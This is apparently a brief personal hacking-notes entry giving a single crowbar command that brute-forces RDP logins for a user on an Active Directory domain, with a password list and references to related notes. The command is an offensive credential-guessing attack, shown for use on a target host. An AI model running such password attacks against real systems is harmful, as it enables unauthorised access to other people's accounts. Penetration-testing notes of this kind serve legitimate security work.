 # crowbar brute force RDP active directory domain joined
```
crowbar -b rdp -n 1 -s $IP/32 -u username@DOMAIN.local -C ./passwords
```

# References
- [20221003150779](/zet/20221003150779/README.md) crowbar brute force RDP
- ~/kb/hacking/commands/crowbar.md

Tags:
    #assorted #command #hacking #crowbar
